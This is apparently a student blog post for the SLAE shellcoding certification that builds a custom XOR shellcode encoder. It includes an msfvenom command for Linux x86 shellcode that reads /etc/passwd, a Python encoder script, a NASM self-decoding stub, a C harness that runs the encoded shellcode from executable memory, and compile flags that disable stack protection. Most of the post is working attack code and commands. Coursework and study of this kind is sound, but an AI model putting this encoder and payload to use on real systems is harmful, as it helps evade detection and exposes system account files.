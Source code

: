 # Assignment 4: Custom Encoder

- Create a custom encoding scheme like the “Insertion Encoder” we showed you 
- PoC with using execve-stack as the shellcode to encode with your schema and execute 



For this assignment, I will be taking an msfpayload and writing a python script to encode it. Then I will wrap the msfvenomm payload in some assmebly that will decode itself in place and execute.

The msfvenom payload I will encode is generated with:

```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
```

This results in the following shellcode:
```c
"\xdd\xc1\xbf\x50\xc4\x41\xa4\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x7a\x18\x03\x7a\x18\x83\xc2\x54\x26\xb4\x4f\x62\x1e\x32\x90\x8a\x5e\x66\xa1\x43\x93\x18\x48\x90\x94\x1a\x4b\x16\xe5\x95\xac\x9f\x1c\x1f\x32\x8f\xde\x60\xfe\x2f\x57\xa2\xb8\x2b\x68\x23\xb9\x88\x69\x23\xb9\xee\xa4\xa3\x01\xef\x36\xa4\x71\x54\x36\xa4\x71\xaa\xfa\x24\x99\x6f\xfb\xda\xa5\x40\x61\x51\x39\xb1\x19\xf8\xce\xbe\xae\x9e\x30"
```

# Encoding: Python

My python script that will do the encoding is below:

```python
#!/bin/python3
import random
import binascii


# msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd  -b '\x00'
payload = b"\xbe\xd4\xa1\x45\x1e\xda\xc1\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x13\x31\x75\x13\x83\xed\xfc\x03\x75\xdb\x43\xb0\xf5\xd5\x3b\x3e\x0a\x19\x3c\x1a\x3b\xd0\xf1\x1c\xb2\x21\xb1\x1e\xc5\xa5\xc2\xa9\x22\x2c\x3b\x13\xac\x3e\xbc\x64\x60\xbe\x35\xa6\xc2\xba\x45\x27\x33\x79\x44\x27\x33\x7d\x8a\xa7\x8b\x7c\x14\xa8\xeb\xc5\x14\xa8\xeb\x39\xd8\x28\x03\xfc\x1d\xd7\x2b\xd1\x84\x5c\xb7\x02\x37\xfc\x44\x2f\xc0\x9a\xaa"

bad_bytes = [ 0xff, 0x00 ]

output = ""
for b in payload:
    # new random byte to xor with
    while True:
        rand_byte = random.randbytes(1)

        # xor real shellcode byte with randomly generated byte
        new_shellcode_byte = b ^ int.from_bytes(rand_byte, 'little')

        # check if new shellcode will contatin 0xff or 0x00    
        if not rand_byte in bad_bytes and not new_shellcode_byte in bad_bytes:
            break
        print("FOUND 0xFF or 0x00 in rand_byte or new_shellcode_byte, generating new random byte!!")
        
    # print(f"{hex(b)} ^ {hex(int.from_bytes(rand_byte, 'little'))} = {hex(new_shellcode_byte)}")
    output += '\\x' + binascii.hexlify(rand_byte).decode('utf-8')
    output += '\\x' + hex(new_shellcode_byte)[2:].zfill(2)

# append our end stub to the end of our payload. This signifies the exit condition.
output += '\\xff\\xff'


print(f"\n{output}\n")
print(", 0x".join(output.split('\\x'))[2:])
print("\nlength: " + str(len(output.split('\\x')) - 1), " - hex: ", str(hex(len(output.split('\\x')) - 1)))
```

This script accepts the original shellcode in the `payload` variable. It then iterates and generates a random byte to xor with each byte of the original payload.

The new shellcode will be in the form of `<random_byte><old_byte ^ random_byte>`. 

If either of these bytes are a `0x00` or `0xff`, a new random byte is generated and the old shellcode is xor'd with the new random byte. This is to avoid `0x00` in the new payload and `0xff` which will be appended as the exit condition during decoding. Additionally, a `bad_bytes` array is used, thus it is trivial to add additional bad characters you would like to avoid in the final shellcode (note that 0xff is required as it is the exit condition). I personally think this is super cool and useful! 

# Decoder: Assembly

```assembly
; Filename: custom_decode.nasm
; read /etc/passwd


global _start

section .text
_start:
	jmp _shellcode


_decode_stub:
	pop esi 						; ptr to encoded_shellcode
	xor ecx, ecx			
	mul ecx							; ecx, edx, eax all cleared
	xor ebx, ebx					; ebx cleared

_loop:
	mov dl, byte [esi + ecx]		; mov random byte to dl
	mov bl, byte [esi + ecx + 1]	; mov next instruction to be xor'ed
	
	; exit condition
	cmp bl, 0xff 					; is next byte to xor a 0xff 
	jz _execute
	
	xor bl, dl
	mov byte [esi + eax], bl		; move dl to shellcode
	add ecx, 0x2
	inc eax
	jmp _loop


_execute:
	jmp esi


; section .data						; need .data section to be writable
									; OR, compile with 'ld -N' to make .text section not read-only
_shellcode:
	call _decode_stub
	encoded_shellcode: db 0x8b, 0x56, 0x97, 0x56, 0xab, 0x14, 0x77, 0x27, 0x8e, 0x4a, 0x1b, 0x5a, 0x9a, 0x3e, 0x22, 0xfb, 0xc8, 0xbc, 0xef, 0xcb, 0x74, 0x80, 0x91, 0xcb, 0x1c, 0x37, 0x55, 0x9c, 0xce, 0x7f, 0x9c, 0x8f, 0x17, 0x26, 0xb3, 0xc9, 0x90, 0x88, 0x66, 0x65, 0xf2, 0x88, 0x7b, 0x63, 0xcb, 0x48, 0x78, 0xba, 0x40, 0x14, 0x23, 0x05, 0x91, 0x25, 0xa2, 0xed, 0xd7, 0xb5, 0x01, 0x1f, 0xd2, 0xe0, 0xae, 0x3e, 0xef, 0x65, 0x0f, 0x51, 0x37, 0x51, 0x45, 0xe4, 0xe9, 0xaa, 0xcb, 0x58, 0x4a, 0x52, 0x83, 0xcb, 0xf9, 0x69, 0x3b, 0xaf, 0x2b, 0x31, 0x86, 0xcd, 0x28, 0x3e, 0xd1, 0x34, 0xf3, 0x66, 0xed, 0x41, 0x42, 0xdd, 0xb4, 0xa8, 0x59, 0x46, 0x81, 0xb3, 0x77, 0xf8, 0xca, 0x14, 0x76, 0x16, 0x04, 0xfa, 0x96, 0xb9, 0x82, 0xd5, 0xd3, 0x71, 0x7d, 0xc5, 0x7e, 0x55, 0xcc, 0xa4, 0x86, 0xa5, 0x6e, 0xd7, 0x66, 0xee, 0xd4, 0xbd, 0xcc, 0xef, 0x5d, 0xe4, 0x78, 0x96, 0xe7, 0x43, 0xd4, 0x77, 0x71, 0x70, 0xb7, 0x58, 0x9d, 0xab, 0xb6, 0x12, 0x74, 0x05, 0xfe, 0xaa, 0x4a, 0x7c, 0xb5, 0x11, 0x42, 0x33, 0x09, 0xa3, 0xc2, 0x38, 0x3f, 0x1b, 0xf5, 0x6c, 0xd7, 0xb8, 0xbd, 0x46, 0x09, 0xd3, 0x66, 0xc3, 0x5b, 0x1b, 0x08, 0x69, 0x77, 0x26, 0xb4, 0x8d, 0x16, 0xa7, 0xcd, 0xd4, 0x76, 0x8e, 0x1c, 0xd2, 0x75, 0xcb, 0x94, 0x3a, 0x09, 0x97, 0x39, 0x09, 0xff, 0xff

```

Here, the `encoded_shellcode` is the output from the previous python encoder script.

This assembly just reverses the encoding process. First, a pointer to the original shellcode is loaded into the `esi` register using the jmp, call, pop technique.

It then jumps by 2 bytes during each loop and grabs the random_byte in `dl` and the xor'd original byte in `bl`. It then xor's these two values for the actual original byte, and overwrites the encoded shellcode in place.

Once an `0xff` is found, the exit condition has been met, and the code jumps to the position pointed at by `esi`, the decoded shellcode.

# Testing

This can be tested with the following test_decoder.c file:
```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\xeb\x20\x5e\x31\xc9\xf7\xe1\x31\xdb\x8a\x14\x0e\x8a\x5c\x0e\x01\x80\xfb\xff\x74\x0b\x30\xd3\x88\x1c\x06\x83\xc1\x02\x40\xeb\xe9\xff\xe6\xe8\xdb\xff\xff\xff\x8b\x56\x97\x56\xab\x14\x77\x27\x8e\x4a\x1b\x5a\x9a\x3e\x22\xfb\xc8\xbc\xef\xcb\x74\x80\x91\xcb\x1c\x37\x55\x9c\xce\x7f\x9c\x8f\x17\x26\xb3\xc9\x90\x88\x66\x65\xf2\x88\x7b\x63\xcb\x48\x78\xba\x40\x14\x23\x05\x91\x25\xa2\xed\xd7\xb5\x01\x1f\xd2\xe0\xae\x3e\xef\x65\x0f\x51\x37\x51\x45\xe4\xe9\xaa\xcb\x58\x4a\x52\x83\xcb\xf9\x69\x3b\xaf\x2b\x31\x86\xcd\x28\x3e\xd1\x34\xf3\x66\xed\x41\x42\xdd\xb4\xa8\x59\x46\x81\xb3\x77\xf8\xca\x14\x76\x16\x04\xfa\x96\xb9\x82\xd5\xd3\x71\x7d\xc5\x7e\x55\xcc\xa4\x86\xa5\x6e\xd7\x66\xee\xd4\xbd\xcc\xef\x5d\xe4\x78\x96\xe7\x43\xd4\x77\x71\x70\xb7\x58\x9d\xab\xb6\x12\x74\x05\xfe\xaa\x4a\x7c\xb5\x11\x42\x33\x09\xa3\xc2\x38\x3f\x1b\xf5\x6c\xd7\xb8\xbd\x46\x09\xd3\x66\xc3\x5b\x1b\x08\x69\x77\x26\xb4\x8d\x16\xa7\xcd\xd4\x76\x8e\x1c\xd2\x75\xcb\x94\x3a\x09\x97\x39\x09\xff\xff";


int main(){
  printf("Shellcode length: %d\n", strlen(code));
  int r =  mprotect((void *)((int)code & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
  printf("mprotect: %d\n",r);
  int (*ret)() = (int(*)())code;
  return ret();
}
```


To obtain the `code` here, we compile and link the assembly defined above. However, due to the large data blob of the encoded shellcode, I was receiving errors when trying to execute this test_decoder.c file. Upon further inspection, I noticed my previous function to dump shellcode was removing important bytes from my shellcode. Thus, I rewrote it to (hopefully) be more consistant:

```bash
dump-shellcode () {
    # OLD METHOD
    # objdump -d "$1" |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

    # NEW METHOD
    objdump -d "$1" |grep '[0-9a-f]:' | grep -v file | cut -d':' -f2- | sed 's/^\W*//g' | grep -Po "^([0-9a-f]{2} )+" | tr -d '\n' | sed 's/\W/\\x/g' | sed 's/^/\\x/g' | rev | cut -c3- |rev
}
```

running `dump-shellcode <compiled_linked_assembly_binary>` resulted in the full encoded shellcode and worked flawlessly. 

Once the `test.c` file is in order, it can be compiled and ran using:
```bash
gcc -fno-stack-protector -z execstack -m32 test_decoder.c -o test_decoder
./test_decoder
``` 



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: PA-29350
